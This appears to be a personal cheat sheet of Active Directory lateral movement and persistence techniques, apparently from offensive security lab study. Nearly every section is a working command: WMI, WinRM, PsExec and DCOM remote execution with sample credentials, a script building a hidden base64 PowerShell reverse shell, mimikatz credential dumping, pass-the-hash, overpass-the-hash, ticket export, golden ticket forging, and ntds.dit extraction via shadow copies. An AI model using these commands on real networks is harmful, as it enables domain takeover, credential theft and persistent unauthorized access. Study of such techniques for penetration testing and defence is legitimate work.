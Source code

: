 # AD Lateral Movement Techniques
- all mimikatz run this : ``` privilege::debug ``` to do sussy thing
- spawn cmd inside mimikatz : ``` misc::cmd ```
- Some Ticket may req admin right to access (read)
## WMI 
- Remote Procedure Calls (port 135)
- Req target host credential & that user admininistrator local group in target
- deprecated in realworld
- not restricted by UAC remote restriction for non-domain joined machines 
- Works in cmd & pwsh
### Cmd 
- Dont have direct output 
- Launch calculator remotely  ``` wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" ```
### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Prep Cim Session
   ```
        $options = New-CimSessionOption -Protocol DCOM
        $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options // modify ip to new victim ip
        $command = 'calc';  // modify this to any rev shell or command
    ```
3. Prep Powershell Base64 Rev Shell
   ``` 
        import sys
        import base64

        payload = {reference https://www.revshells.com/ PowerShell #2 starting from "client....}

        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

        print(cmd)
    ```
4. Run CIM
    ``` 
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
    ``` 

## WinRM
- WS-Management Protocol (xml messages w/ http&https)
- port 5986
- Req Administrators or Remote Management Users Group on target host
### Cmd
- Have output
- ``` winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami" ``` 

### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Start session 
   ``` 
    New-PSSession -ComputerName {Target IP} -Credential $credential
    Enter-PSSession 1 // no need nc
   ```

## PsExec
- Require ADMIN$ share in SMB
- Require that user is admin local group of that machine
- Require file & printer sharing turned on
1. Exec ``` ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd ```

## Pass the hash
- With NTLM authN services only | Kerberos authN NOT WORK!!
- Abuse SMB again
- Run in kali ``` /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@{Target ip} ```

## Overpass the hash
- Passing NTLM generated ticket (TGT) for Kerberos service | Not for NTLM services!!!
1. Run as different user for any exe e.g. notepad (shift right click)
2. Get NTLM ``` mimi> sekurlsa::logonpasswords ``` 
3. Spawn shell of that user``` sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell ```
4. Turn NTLM to Kerberos ticket by generating when access netw share ``` net use \\files04 ```
5. Check the ticket ``` klist ```
6. Spawn shell in victim ``` .\PsExec.exe \\files04 cmd ```

## Pass the ticket
- Passing NTLM ticket to get TGS for Kerberos service | Not for NTLM services!!! 
- More flexibility (TGS > TGT)
1. Export all TGT/TGS from memory ``` mimi> sekurlsa::tickets /export ```
2. Find all ticket and select the one we want ``` pwsh> dir *.kirbi ``` (remember same directory as mimikatz.exe) 
   - our target have record in Group 2 - T... G... S...
   - e.g. ```[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi ``` means dave = the user we want to impersnate and web04 is domain name
3. Run as admin shell & access the service

## DCOM
- Distributed Component Object Model & abusing Microsoft Management Console COM app
- Old tech
- Port 135 RPC
- Req local admin
1. Prepare DCOM obj``` $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.177.72")) ```
2. Execute ``` $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{commands e.g. rev shell}","7") ``` (can edit to other shell)

# AD Persistence
## Golden Ticket
- Create self-made custom TGT
- Create a TGT stating that a non-privileged user is a member of the Domain Admins group
-  krbtgt account password is not automatically changed
-  Require krbtgt password (NTLM hashed)
1. dump the list if have kerberos pwd ``` lsadump::lsa /patch ``` Get domain id here (S-1-5-xxxxx) & NTLM hash of krbtgt
2. remove all existing tickets ``` kerberos::purge ``` 
3. Gen golden ticket ``` kerberos::golden /user:jen /domain:corp.com /sid:{domain} /krbtgt:{krbtgt ntlm hash} /ptt ```
4. Run psexec to lateral movement ``` ./PsExec.exe \\dc1 cmd.exe ```

## Shadow Copies
- Abusing Microsoft backup tech: Volume Shadow Service (Which backup AD database)
- Req Admin in Domain controller
- Start in Domain Controller (with CMD):
  1. Query all shadow copies ``` vshadow.exe -nw -p  C: ``` (Get the shadow copy device name for step 2)
  2. Copy the ntds.dit to DC directory``` copy {shadow copy device name}\windows\ntds\ntds.dit c:\ntds.dit.bak ```
  3. Save to system hive ``` reg.exe save hklm\system c:\system.bak ```
  4. Copy the 2 files to kali (ntds.dit.bak & system.bak)
  5. Use Kali : ``` impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL ``` 
  6. (Optional) Can use pass the hash to get shell 